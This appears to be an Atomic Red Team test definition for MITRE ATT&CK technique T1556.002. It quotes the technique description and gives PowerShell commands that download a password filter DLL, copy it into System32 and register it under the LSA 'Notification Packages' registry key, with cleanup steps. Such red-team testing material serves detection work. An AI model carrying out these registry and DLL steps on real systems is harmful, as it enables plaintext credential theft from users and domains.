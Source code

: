 # T1556.002 - Modify Authentication Process: Password Filter DLL
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1556/002)
<blockquote>Adversaries may register malicious password filter dynamic link libraries (DLLs) into the authentication process to acquire user credentials as they are validated. 

Windows password filters are password policy enforcement mechanisms for both domain and local accounts. Filters are implemented as DLLs containing a method to validate potential passwords against password policies. Filter DLLs can be positioned on local computers for local accounts and/or domain controllers for domain accounts. Before registering new passwords in the Security Accounts Manager (SAM), the Local Security Authority (LSA) requests validation from each registered filter. Any potential changes cannot take effect until every registered filter acknowledges validation. 

Adversaries can register malicious password filters to harvest credentials from local computers and/or entire domains. To perform proper validation, filters must receive plain-text credentials from the LSA. A malicious password filter would receive these plain-text credentials every time a password request is made.(Citation: Carnal Ownage Password Filters Sept 2013)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install and Register Password Filter DLL](#atomic-test-1---install-and-register-password-filter-dll)


<br/>

## Atomic Test #1 - Install and Register Password Filter DLL
Uses PowerShell to install and register a password filter DLL. Requires a reboot and administrative privileges.
The binary in bin is https://www.virustotal.com/gui/file/95140c1ad39fd632d1c1300b246293297aa272ce6035eecc3da56e337200221d/detection
Source is in src folder. 
This does require a reboot to see the filter loaded into lsass.exe. 
It does require Administrative privileges to import the clean registry values back into LSA, it is possible you may have to manually do this after for cleanup.

**Supported Platforms:** Windows


**auto_generated_guid:** a7961770-beb5-4134-9674-83d7e1fa865c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_path | Path to DLL to be installed and registered | path | PathToAtomicsFolder&#92;T1556.002&#92;bin|
| dll_name | Name of the Password Filter | string | AtomicRedTeamPWFilter.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
reg.exe export HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ "PathToAtomicsFolder\T1556.002\lsa_backup.reg"
$passwordFilterName = (Copy-Item "#{dll_path}\#{dll_name}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
```

#### Cleanup Commands:
```powershell
reg.exe import "PathToAtomicsFolder\T1556.002\lsa_backup.reg"
remove-item C:\Windows\System32\#{dll_name}
```



#### Dependencies:  Run with `powershell`!
##### Description: AtomicRedTeamPWFilter.dll must exist on disk at specified location (#{dll_path}\#{dll_name})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}\#{dll_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/redcanaryco/atomicredteam/atomics/T1556.002/bin/AtomicRedTeamPWFilter.dll" -OutFile "#{dll_path}\#{dll_name}"
```




<br/>
